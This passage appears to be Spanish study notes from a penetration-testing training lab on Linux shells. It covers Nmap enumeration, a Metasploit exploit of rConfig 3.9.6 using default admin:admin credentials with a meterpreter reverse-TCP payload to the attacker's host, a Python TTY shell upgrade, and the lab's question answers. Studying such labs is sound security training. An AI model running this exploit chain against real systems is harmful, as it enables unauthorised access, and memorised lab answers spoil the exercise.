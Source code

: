 ### **Consideraciones Comunes**

Antes de atacar un sistema Unix/Linux, debemos responder estas preguntas:

1. ¿Qué distribución de Linux está ejecutando el sistema?
2. ¿Qué shell y lenguajes de programación están disponibles?
3. ¿Qué función cumple el sistema en la red?
4. ¿Qué aplicación está hospedando?
5. ¿Existen vulnerabilidades conocidas en el sistema o las aplicaciones?
### **Obteniendo una Shell mediante una Aplicación Vulnerable**

#### **Enumeración del Sistema**

Comencemos con un escaneo básico utilizando Nmap para identificar servicios, versiones y posibles vectores de ataque:
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.2.253 -oG puertos_abiertos
```

```shell
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 63
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
111/tcp  open  rpcbind syn-ack ttl 63
443/tcp  open  https   syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
```

identificamos verisones que podrian estar 


```shell
nmap -sCV -p21,22,80,111,443,3306 10.129.2.253 -oN sevicios
```
```text

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.2.253/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: Host: the

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds
```

identificamos que el servicio web es una herramienta de administración de redes **rConfig (versión 3.9.6)**. Esta herramienta se utiliza para configurar dispositivos de red remotamente, pero si es comprometida, podría permitir acceso a toda la red.
![[Pasted image 20241118100425.png]]


encontramos un modulo en metasploit que nos puede interesar 
![[Pasted image 20241118100831.png]]
las opciones que tenemos en el modulo son las siguientes 
```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > options

Module options (exploit/linux/http/rconfig_vendors_auth_file_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password of the admin account
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of the rConfig server
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username of the admin account
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.19     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

al parecer las credenciales admin:admin estan por defecto en la web
asi que unicamente hacemos configuracion  de los siguientes parametros

```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOST 10.129.2.253
RHOST => 10.129.2.253
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.16.85
LHOST => 10.10.16.85
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LPORT 4444
```

hacemos eploit y logramos una conexxion de meterpreter donde lanzamos una shell
![[Pasted image 20241118101518.png]]
### **Spawning una Shell TTY con Python**

Al usar un exploit, a menudo obtenemos una shell sin TTY, lo que limita nuestra capacidad para ejecutar ciertos comandos como `su` o `sudo`. Si Python está disponible, podemos convertir esta shell a una TTY completa.
```shell
which python
```
si verificamos su existencia podemos spawnear una shell  TTY

```shell
python -c 'import pty; pty.spawn("/bin/sh")'
```
#### resolucion actividar
1) What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce? R// PHP
2) Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system. R// ![[Pasted image 20241118103132.png]]
edgerouter-isp
